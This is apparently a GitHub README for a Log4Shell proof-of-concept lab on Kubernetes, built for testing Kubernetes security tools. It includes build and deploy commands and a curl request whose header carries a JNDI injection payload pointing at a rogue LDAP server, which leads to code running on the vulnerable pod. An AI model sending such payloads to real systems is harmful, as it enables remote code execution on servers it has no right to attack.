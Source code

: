 # log4shell-kubernetes

A log4shell proof of concept running on Kubernetes.

This is not different on running other POC, it's provided to test Kubernetes specific security tools.

It uses the following projects:
* https://github.com/christophetd/log4shell-vulnerable-app
* https://github.com/veracode-research/rogue-jndi

For more information, check:
* https://vicenteherrera.com/blog/log4j-part-i/

## Build and push docker images

You can build your own images if you want instead of using the ones pushed to quay.io.

```bash
git clone https://github.com/veracode-research/rogue-jndi.git
docker build ./rogue-jndi -t quay.io/vicenteherrera/rogue-jndi -f Dockerfile-rogue-jndi
docker push quay.io/vicenteherrera/rogue-jndi

git clone https://github.com/christophetd/log4shell-vulnerable-app.git
cd log4shell-vulnerable-app
docker build . -t quay.io/vicenteherrera/quay.io/vicenteherrera/log4shell-vulnerable-app
docker push quay.io/vicenteherrera/log4shell-vulnerable-app
cd ..
```

The provided `Dockerfile-rogue-jndi` is set to executed on the compromised workload the command:  
`touch /root/test.txt` 

## Deploy on Kubernetes

```bash
kubectl apply -f vulnerable-log4j.yaml
kubectl apply -f rogue-jndi.yaml
```

## Watch logs

```bash
# On different terminals
kubectl logs service/rogue-jndi -f
kubectl logs service/vulnerable-log4j -f
```

## Launch attack

```bash
kubectl run my-shell --rm -it --image curlimages/curl -- sh
curl vulnerable-log4j:8080 -H 'X-Api-Version: ${jndi:ldap://rogue-jndi:1389/o=tomcat}'
```

## Check that the attack succeded

```bash
kubectl exec service/vulnerable-log4j -it -- ls /root
```

It should list `test.txt` file.
